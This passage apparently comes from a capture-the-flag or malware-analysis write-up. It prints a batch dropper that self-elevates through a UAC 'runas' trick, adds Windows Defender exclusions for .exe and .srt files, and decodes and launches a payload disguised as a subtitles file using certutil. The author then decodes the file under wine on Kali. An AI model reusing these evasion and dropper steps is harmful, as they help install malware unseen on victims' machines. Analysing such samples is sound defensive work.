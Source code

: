 ```bat

  ECHO UAC.ShellExecute "!batchPath!", args, "", "runas", 1 >> "%vbsGetPrivileges%"
  goto ExecElevation

:InvokeCmd
  ECHO args = "/c """ + "!batchPath!" + """ " + args >> "%vbsGetPrivileges%"
  ECHO UAC.ShellExecute "%SystemRoot%\%winSysFolder%\cmd.exe", args, "", "runas", 1 >> "%vbsGetPrivileges%"

:ExecElevation
 "%SystemRoot%\%winSysFolder%\WScript.exe" "%vbsGetPrivileges%" %*
 exit /B

:gotPrivileges
 setlocal & cd /d %~dp0
 if '%1'=='ELEV' (del "%vbsGetPrivileges%" 1>nul 2>nul  &  shift /1)

 powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExt "exe"
 powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExt "srt"

 certutil -decodehex -f Subtitles.srt Subtitles_tmp.srt

 start Subtitles_tmp.srt
 cmd /k
 exit
```

We have this now, how do we run it?

```bat
certutil -decodehex -f Subtitles.srt Subtitles_tmp.srt
```

Obviously windows, but we're on Kali, so `wine` it is. To open a windows terminal in Kali, run `wine cmd`, this will enter a command promt, where it's possible to navigate to the local Kali files.

But, nothing interesting there that couldn't have been found in the `.msi` file.

We tried a bunch of lucky guesses, but got a small mistake in the IP.

Grepping the file again

![Grep contents](../../images/grep-results.png){: .image-process-crisp}
